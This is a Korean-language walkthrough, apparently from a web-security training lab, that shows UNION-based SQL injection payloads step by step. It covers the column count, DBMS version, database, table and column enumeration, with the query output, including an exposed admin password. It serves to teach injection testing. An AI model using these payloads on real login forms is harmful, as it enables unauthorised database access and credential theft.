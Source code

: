 ~~~
~~~



### UNION SQL 삽입 체크

#### 칼럼 갯수 확인

admin' union select 1,2,3,4,5,6 #

~~~
MySQL 조회결과:    IDX: 1      ID: admin      PASSWORD: openeg      이름: 관리자
IDX: 1      ID: 2      PASSWORD: 3      이름: 4
~~~



#### DBMS 버전 확인

admin' union select version(),2,3,4,5,6 #

~~~
MySQL 조회결과:    IDX: 1      ID: admin      PASSWORD: openeg      이름: 관리자
IDX: 5.1.41-community      ID: 2      PASSWORD: 3      이름: 4
~~~



#### 시스템에 설치된 DB목록 확인

' union select schema_name,2,3,4,5,6 from information_schema.schemata #

~~~
MySQL 조회결과:    IDX: information_schema      ID: 2      PASSWORD: 3      이름: 4
IDX: board      ID: 2      PASSWORD: 3      이름: 4
IDX: dvwa      ID: 2      PASSWORD: 3      이름: 4
IDX: hacmebooks      ID: 2      PASSWORD: 3      이름: 4
IDX: mysql      ID: 2      PASSWORD: 3      이름: 4
IDX: openeg      ID: 2      PASSWORD: 3      이름: 4
IDX: owasp10      ID: 2      PASSWORD: 3      이름: 4
IDX: phpmyadmin      ID: 2      PASSWORD: 3      이름: 4
IDX: puzzlemalldb      ID: 2      PASSWORD: 3      이름: 4
~~~



#### 테이블 목록 확인

admin' union select group_concat(table_name),2,3,4,5,6 from information_schema.tables where table_schema=database()#

~~~
MySQL 조회결과:    IDX: 1      ID: admin      PASSWORD: openeg      이름: 관리자
IDX: board,board_comment,board_member,login_history,openeg_security 
~~~



#### 칼럼명 확인

admin' union select group_concat(column_name),2,3,4,5,6 from information_schema.columns where table_name='board_member'#
